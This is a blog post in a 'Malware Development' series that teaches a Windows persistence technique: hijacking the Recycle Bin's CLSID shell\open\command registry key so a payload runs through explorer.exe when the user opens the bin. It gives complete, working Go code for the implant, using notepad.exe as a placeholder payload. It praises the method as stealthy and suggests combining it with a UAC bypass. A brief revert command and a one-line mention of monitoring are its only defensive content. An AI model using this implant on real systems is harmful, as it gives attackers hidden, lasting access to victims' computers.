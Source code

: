```yaml
---
layout: post
title: Malware Development 3 - Persistence via Recycle Bin (Golang)
tags: [Persistence]
categories: [Malware Development]
---
```


<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/banners/banner-3.png" alt="pic">

# Introduction

Hello dear hackers!

Today we're gonna see an effective technique to mantain access in Windows systems during red team operations just by modifying a registry key which interacts with the ***Recycle Bin***. I don't know if any APT group uses this technique but I read about it in a ***vxunderground*** paper (see [here](https://github.com/vxunderground/VXUG-Papers/tree/main/The%20Persistence%20Series/Persistence%20via%20Recycle%20Bin)) and I thought it may be interesting to try in Golang so let's see how it works

# Explanation

In Windows there are some folders which have have uniques CLSID values like the ones for the "Recycle Bin" ***{645ff040-5081-101b-9f08-00aa002f954e}*** or the "My Documents" ***{450d8fba-ad25-11d0-98a8-0800361b1103}***

All of this may sound familiar to you if you've ever tried the ***fodhelper.exe UAC bypass*** in which the registry ***HKCU*** is modified to execute commands as administrator without any confirmation.

# Code

First of all we must import the necessary packages. In this case we'll use the official Golang package to interact with registry keys

```go
package main

import (
  "fmt"
  "log"

  "golang.org/x/sys/windows/registry"
)
```

We have to open the CLSID registry key

```go
...

bin_key, err := registry.OpenKey(
  registry.LOCAL_MACHINE,
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell",
  registry.WRITE, // Permissions
)

if err != nil {
  fmt.Println("OpenKey error!")
  log.Fatal(err)
}
defer bin_key.Close()

...
```

Then we create the new registry where our malicious commands will be

```go
...

k, _, err := registry.CreateKey(
  bin_key,
  "open\\command",
  registry.ALL_ACCESS,
)

if err != nil {
  fmt.Println("CreateKey error!")
  log.Fatal(err)
}

...
```

And finally we set the value, in our case it's a simple notepad but you could be creative to combine it with other things like UAC bypass and more

```go
...

err = k.SetStringValue("", "notepad.exe")
if err != nil {
  log.Fatal(err)
}

...
```

Let's add more output and the final code should be something like this:

```go
package main

/*

Author: D3Ext
Blog post: https://d3ext.github.io/posts/malware-dev-3/

*/

import (
  "fmt"
  "log"

  "golang.org/x/sys/windows/registry"
)

func main(){

  // Open registry key
  fmt.Println("Opening registry key...")
  bin_key, err := registry.OpenKey(
    registry.LOCAL_MACHINE,
    "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell",
    registry.WRITE,
  )

  if err != nil { // Handle error
    fmt.Println("OpenKey error!")
    log.Fatal(err)
  }
  // Close key
  defer bin_key.Close()

  // Create new key
  fmt.Println("Creating new key...")
  k, _, err := registry.CreateKey(
    bin_key,
    "open\\command",
    registry.ALL_ACCESS,
  )

  if err != nil { // Handle error
    fmt.Println("CreateKey error!")
    log.Fatal(err)
  }

  // Set value
  fmt.Println("Setting notepad.exe as our payload...")
  err = k.SetStringValue("", "notepad.exe")
  if err != nil { // Handle error
    fmt.Println("SetStringValue error!")
    log.Fatal(err)
  }

  fmt.Println("Process completed!")
}
```

Now we compile our payload and transfer it to our Windows testing machine

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice3/compile-malware-3.png" alt="pic">

I haven't read anywhere if this operation can be done without administrator privileges but testing in my Windows it always returned "Access denied"

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice3/demo-malware-3.png" alt="pic">

> Be careful with your payload because testing with cmd.exe and notepad, I created an infinite loop and I had to restart my PC
{: .prompt-warning}

As you can see after clicking the recycle bin icon a notepad.exe appears

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice3/demo-malware-3-1.png" alt="pic">

Now if we search the parent process id (PPID) of the notepad.exe we see that it's executed under ***explorer.exe*** process

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice3/explorer-malware-3.png" alt="pic">

To revert our modifications you can simply execute this powershell command `reg DELETE "HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open" /f` and it should work for you

# References

```
https://github.com/vxunderground/VXUG-Papers/blob/main/The%20Persistence%20Series/Persistence%20via%20Recycle%20Bin/Persistence_via_Recycle_Bin.pdf
https://blog.amartinsec.com/posts/recyclebin/
```

# Conclusion

This persistence technique can be useful for red teamers as it's stealthy and everyone use the recycle bin to delete files so the payload would be executed whenever a user access to it. But the registry key can be monitored to prevent this so blue teamers should have this technique in mind

Source code [here](https://github.com/D3Ext/malware-practices) in my Github

[Go back to top](#)


